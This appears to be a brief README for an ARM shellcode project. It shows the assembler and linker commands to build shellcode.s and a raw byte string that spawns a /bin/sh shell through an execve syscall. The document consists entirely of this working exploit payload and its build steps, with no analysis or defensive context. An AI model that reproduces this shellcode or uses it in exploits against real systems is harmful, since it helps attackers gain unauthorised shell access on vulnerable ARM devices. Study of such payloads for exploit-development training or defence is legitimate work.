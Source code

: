 # ARM Shellcode

To produce binary, assemble and link shellcode.s file:
`as shellcode.s -o shellcode.o`
`ld -N shellcode.o -o shellcode`

Raw shellcode:
`\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\xa0\x49\x1a\x92\x1a\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58`
